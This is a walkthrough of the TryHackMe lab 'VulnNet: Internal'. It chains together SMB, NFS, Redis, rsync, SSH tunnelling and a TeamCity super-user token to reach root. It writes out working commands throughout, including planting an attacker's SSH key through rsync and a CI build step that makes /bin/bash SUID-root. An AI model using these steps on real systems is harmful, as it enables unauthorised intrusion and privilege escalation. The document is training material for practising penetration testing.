# VulnNet: Internal — TryHackMe

    



## Room Info

| Field | Value |
|---|---|
| Platform | TryHackMe |
| Room | [VulnNet: Internal](https://tryhackme.com/room/vulnnetinternal) |
| Category | Network Services Enumeration → Full Box |
| Difficulty | Medium |
| Time | ~45 min |
| Target IP | 10.129.148.92 |
| Tools used | `nmap`, `smbmap`, `smbclient`, `showmount`/NFS mount, `redis-cli`, `rsync`, `ssh-keygen`, `ssh` (with local port forwarding), TeamCity web UI |

## Objective

No web app, no single exploit — this box is a **pure enumeration chain**. Every service leaks just enough to unlock the next one: SMB → NFS → a config file → Redis → a Base64 blob → rsync credentials → filesystem write access → SSH → an internal-only CI/CD server → command execution as root. The real skill being tested is the *mindset*, not any one tool: for every open port, ask what it is, what it reveals, and what it hands you next.

## Concept Glossary

This room touches more distinct services than most, so each one gets its own quick explainer before the walkthrough — this section alone should make the writeup useful as a reference months from now.

**rpcbind / RPC**
RPC (Remote Procedure Call) lets one machine ask another to execute a function remotely, as if it were a local call. `rpcbind` (port 111) is the directory service that maps RPC program numbers to the actual ports those services are listening on — it doesn't do anything interesting itself, but its presence is a strong signal that something RPC-based (most commonly NFS) is running nearby. `rpcinfo -p <IP>` lists what's registered.

**SMB (Server Message Block)**
A Windows-native (but cross-platform via Samba) protocol for sharing files, printers, and other resources over a network, typically on ports 139/445. The first move is always enumerating what shares exist and what access level you have *without* credentials — a surprising number of boxes leave a share readable anonymously (`NULL session`).

**NFS (Network File System)**
The Unix/Linux equivalent of SMB — lets a server export a directory that other machines can mount directly into their own filesystem, typically on port 2049. `showmount -e <IP>` lists what's exported and whether the export is restricted to specific client IPs (`*` means no client restriction — though that's about *who can mount it*, not automatically about read/write permissions once mounted).

**Redis**
An in-memory key-value data store, normally used for caching or fast lookups, listening on port 6379 by default. It's built for trusted internal networks and has no authentication by default — if `requirepass` isn't configured (or you've found the password some other way, like a leaked `redis.conf`), you can connect with `redis-cli` and just read out everything stored in it with `KEYS *`.

**rsync**
A file synchronization tool, often run as a standalone daemon on port 873 exposing named "modules" (virtual paths mapped to real directories). Depending on how a module is configured, it can allow anonymous or credentialed read *and write* access — which is what turns rsync from a simple file-transfer tool into a foothold mechanism, as this room demonstrates.

**Base64 (not encryption)**
Base64 is an *encoding*, not encryption — it has no key and no secret, it just represents binary/text data using a fixed 64-character alphabet so it's safe to pass through text-only channels. Anything Base64-encoded is instantly reversible with `base64 -d`. Seeing a Base64-looking blob (padded with `=`, made up of letters/digits/`+`/`/`) is never a dead end — it's just one command away from plaintext.

**SSH `authorized_keys` as a write-access foothold**
SSH key-based authentication works by checking a public key you present against the list of public keys in `~/.ssh/authorized_keys` on the target — if it matches, you're in, no password needed. Critically, **you don't need to compromise SSH itself** to get in this way; you only need *write access* to that one file, by any means (an exposed rsync module, a writable NFS share, a web upload vulnerability, etc.). SSH becomes the transport for a key you planted, not something you broke into.

**`ss` (socket statistics)**
`ss -tno` lists active TCP connections and listening sockets on a Linux host, including their process/timer info. Once you have a shell, this is one of the first commands worth running — it can reveal services bound only to `127.0.0.1` (localhost), which are invisible to an external port scan but very much running and reachable *from inside*.

**SSH Local Port Forwarding (Tunneling)**
`ssh -L <local_port>:127.0.0.1:<remote_port> user@host` creates a tunnel: anything you connect to on your own `localhost:<local_port>` gets transparently forwarded, through the encrypted SSH connection, to `127.0.0.1:<remote_port>` **as seen from the target's perspective**. This is exactly how you reach a service that's deliberately bound to localhost-only on the target (like an internal admin panel) without ever exposing it externally.

**TeamCity**
A CI/CD (Continuous Integration/Continuous Deployment) server — its whole purpose is to pull code, run builds, and execute arbitrary build steps automatically, usually on a "build agent" process. That's the exact reason it's dangerous once compromised: if you can create or edit a build configuration with sufficient privilege, you get to define a **Command Line build step** — meaning you get to choose exactly what command runs, under whatever user account the build agent operates as. If that's root, you've just turned a CI tool into a root command execution primitive.

**SUID Bit & Why `chmod u+s /bin/bash` Matters**
Setting the SUID bit on a binary (`chmod u+s`, shown as an `s` in the owner-execute position of `ls -l`, e.g. `-rwsr-xr-x`) makes that binary always execute with the *file owner's* privileges, regardless of who runs it. If `/bin/bash` is owned by `root` and SUID-flagged, **any** user who executes it inherits an effective UID of 0 — instant root shell. The catch: the `chmod` command itself has to be run *as root* for this to work; running it as a low-privileged user just sets the bit on a binary you already own the privileges of, which does nothing useful. This is why the TeamCity build step matters so much — it's the mechanism that runs `chmod u+s /bin/bash` **as root**, on your behalf.

**Why `bash -p` and not just `bash`**
The `-p` flag tells Bash to preserve its *effective* UID/GID rather than dropping them to match the *real* UID — normally, Bash quietly drops any inherited elevated privileges as a safety measure the moment it starts. If `/bin/bash` is SUID-root, running it normally would still silently drop back to your real (non-root) UID. `bash -p` skips that drop, so the effective root privileges granted by the SUID bit are actually preserved once you're inside. **`-p` doesn't grant privilege by itself — it only preserves privilege that's already there from the SUID bit.**

## Walkthrough

### 1. Nmap Scan

```bash
nmap -sV -O 10.129.148.92
```



```
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
873/tcp  open  rsync       (protocol version 31)
2049/tcp open  nfs         3-4 (RPC #100003)
9090/tcp filtered zeus-admin
```

Six open services worth investigating: **SSH, rpcbind, SMB (x2 ports), rsync, and NFS.** `rpcbind` + `nfs` together is the classic pairing to expect NFS enumeration next; `rsync` this exposed is unusual and worth remembering for later.

### 2. SMB Enumeration

```bash
smbmap -H 10.129.148.92
```



```
[+] IP: 10.129.148.92:445   Name: 10.129.148.92   Status: NULL Session
    Disk      Permissions   Comment
    print$    NO ACCESS     Printer Drivers
    shares    READ ONLY     VulnNet Business Shares
    IPC$      NO ACCESS     IPC Service
```

No credentials needed — a **NULL session** works here, and the `shares` disk is readable. Connecting directly:

```bash
smbclient //10.129.148.92/shares
```



```
smb: \> cd temp
smb: \temp\> ls
  services.txt   N   38   Sat Feb  6 06:45:09 2021
smb: \temp\> get services.txt
```

> **Not captured** — the `cat services.txt` output was cut off in the screenshot before the flag/content rendered.

### 3. NFS Enumeration

```bash
showmount -e 10.129.148.92
```



```
Export list for 10.129.148.92:
/opt/conf *
```

The `*` means the export isn't restricted to a specific client — it doesn't automatically mean write access, just that mounting itself isn't gated by source IP. Mounting it:

```bash
sudo mkdir -p /mnt/conf
sudo mount -t nfs 10.129.148.92:/opt/conf /mnt/conf
cd /mnt/conf
ls -la
```



```
hp  init  opt  profile.d  redis  vim  wildmidi
```

Config directories are always worth digging through — they routinely leak passwords, API keys, and connection strings. The `redis` folder is the obvious next stop given Redis wasn't even in the original port scan (meaning it's probably internal-only, and this config directory is the only way to learn about it at all).

### 4. Config File Leak — Redis Password

```bash
cd redis
cat redis.conf | grep "pass"
```



```
requirepass "B65Hx562F..."
```

A real Redis password, sitting in plaintext in a config file exposed over an unauthenticated NFS mount.

### 5. Redis Enumeration

```bash
redis-cli -h 10.129.148.92 -p 6379 -a "B65Hx562F..."
```



```
10.129.148.92:6379> KEYS *
1) "internal flag"
2) "int"
3) "marketlist"
4) "tmp"
5) "authlist"
10.129.148.92:6379> GET "internal flag"
```

> **Not captured** — the `GET "internal flag"` output was cut off before the value rendered in the screenshot.

The more interesting key for progressing the chain is `authlist` — a Redis list (`LRANGE authlist 0 -1`) containing Base64-encoded strings that decode to rsync connection details and a password once run through `base64 -d`.

### 6. Rsync — Filesystem Access

With rsync credentials in hand, listing the exposed module confirms it maps to a real user's home directory:

```bash
rsync -av rsync://rsync-connect@10.129.148.92/files/sys-internal | grep "user.txt"
```



```
-rw-------          38 2021/02/06 06:54:25 sys-internal/user.txt
```

Pulling it down:

```bash
rsync -av rsync://rsync-connect@10.129.148.92/files/sys-internal/user.txt .
cat user.txt
```

> **Not captured** — the `cat user.txt` output was cut off before the flag value rendered in the screenshot.

### 7. Generating an SSH Key Pair

Since the rsync module exposes `sys-internal`'s home directory — and if it allows writes — the play is to drop a public key into `.ssh/authorized_keys` rather than trying to crack or guess SSH credentials directly.

```bash
ssh-keygen -t rsa -b 4096 -f ~/.ssh/id_rsa -N ""
cp ~/.ssh/id_rsa.pub /tmp/authorized_keys
```



Copying the public key to a file literally named `authorized_keys` makes the upload step below a direct drop-in — no renaming needed on the target side.

### 8. Uploading the Key via Rsync and Logging In

```bash
rsync -av /tmp/authorized_keys rsync://rsync-connect@10.129.148.92/files/sys-internal/.ssh/authorized_keys
ssh -i ~/.ssh/id_rsa sys-internal@10.129.148.92
```



Login succeeds. **No SSH vulnerability was exploited** — SSH just accepted the key that write access to `authorized_keys` let us plant.

### 9. Internal Enumeration — Finding a Localhost-Only Service

```bash
ss -tno
```



Buried in the connection list:

```
[::ffff:127.0.0.1]:8111
```

Port 8111, bound only to `127.0.0.1` — invisible to the original external `nmap` scan, but clearly alive from the inside. Cross-referencing the filesystem, a `/TeamCity` directory exists — 8111 is TeamCity's default web port.

### 10. SSH Local Port Forwarding to Reach It

```bash
ssh -i ~/.ssh/id_rsa -L 8111:127.0.0.1:8111 sys-internal@10.129.148.92
```



Now `http://127.0.0.1:8111` on the attacking machine transparently forwards through the SSH connection to the target's own localhost:8111 — reaching a service that was never exposed externally.



The login page shows **"No System Administrator found"** — TeamCity hasn't been fully set up with an admin account yet, which means a super-user token mechanism is available instead of normal credentials.

### 11. Finding the TeamCity Super-User Token

Since there's already a shell on the box, the fastest path is reading TeamCity's own logs directly rather than trying to brute-force or guess anything:

```bash
cd /TeamCity/logs
grep -i "Super user authentication token" catalina.out | tail -1
```



```
[TeamCity] Super user authentication token: 9178648801765823488
(use empty username with the token as the password to access the server)
```

**Important:** TeamCity can regenerate this token on every server restart, so if multiple tokens show up in the logs, always trust the most recent one — pulling `tail -1` on the grep result handles that automatically.

### 12. Authenticating as Super User

Using an **empty username** and the token as the password logs straight into TeamCity's admin interface:



Full administrative access — no projects configured yet, but the ability to create one.

### 13. Creating a Project and Build Configuration

```
Create Project → Manually → Name: project
```





### 14. The Command Line Build Step — Weaponizing the Build Agent

Inside the new build configuration, adding a **Command Line** build step with a custom script:



```
Runner type:    Command Line
Custom script:  chmod u+s /bin/bash
```

This is the entire privilege escalation in one line — but only because TeamCity's build agent executes it, and that agent process runs as **root**. The same command run manually as `sys-internal` would do nothing useful, since `chmod` still needs sufficient privilege to modify a root-owned binary's permission bits.

Once this build configuration runs, `/bin/bash` becomes SUID-root on the target filesystem.

### 15. Confirming Root

Back on the SSH session as `sys-internal`, invoking bash with `-p` to preserve the now-elevated effective privileges from the SUID bit:

```bash
/bin/bash -p
whoami
cat /root/root.txt
```



```
sys-internal@ip-10-129-148-92:~$ /bin/bash -p
bash-5.0#
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
```

**`whoami` confirms root.** The `root.txt` flag value itself:

> **Not captured** — the `cat /root/root.txt` output wasn't fully captured in the final screenshot.

## Full Lessons Learned

This box is a masterclass in the fact that **most real intrusions aren't a single dramatic exploit — they're a chain of small information leaks, each one unremarkable on its own:**

```
SMB (NULL session)          → services.txt
       ↓
NFS (unrestricted export)   → redis.conf
       ↓
Redis (leaked password)     → authlist (Base64 blob)
       ↓
Base64 decode                → rsync credentials
       ↓
rsync (write access)         → sys-internal/.ssh/authorized_keys
       ↓
SSH (never exploited)        → interactive shell
       ↓
ss -tno (internal recon)     → localhost-only service on :8111
       ↓
SSH tunnel                   → reach TeamCity from outside
       ↓
TeamCity logs                → super-user token
       ↓
TeamCity build step          → command execution as root
       ↓
chmod u+s /bin/bash + bash -p → root shell
```

Five things worth internalizing for future boxes or real recon work:

1. **A NULL SMB session is still worth checking every time.** No credentials, no exploit — just an anonymous connection that happened to be left readable.
2. **Config files are some of the highest-value loot on any exported filesystem.** `redis.conf` here directly contained a live password in plaintext.
